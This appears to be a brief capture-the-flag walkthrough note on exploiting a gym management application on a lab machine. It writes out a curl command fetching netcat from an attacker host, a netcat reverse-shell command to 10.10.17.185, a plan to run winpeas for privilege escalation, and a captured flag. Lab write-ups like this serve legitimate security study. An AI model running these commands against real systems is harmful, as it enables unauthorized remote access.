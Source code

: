 looking around google to find exploit for gym manager we found a [[CVEs]]  #gym1managment 

running the python script we got a shell but it's so unstable so what we can do we can download nc on the server and get a stable reverse shell 
using curl on the server we downloaded the netcat 
curl http://10.10.17.185:8000/nc.exe -o nc.exe 
then we ran 
nc.exe 10.10.17.185 2239 -e powershell 
and we are in !![[Pasted image 20211007181304.png]]
let's get winpeas into the server and see what we can do to privesc
#userflag cdbb57781b6d7108cd0bc6e90b73d403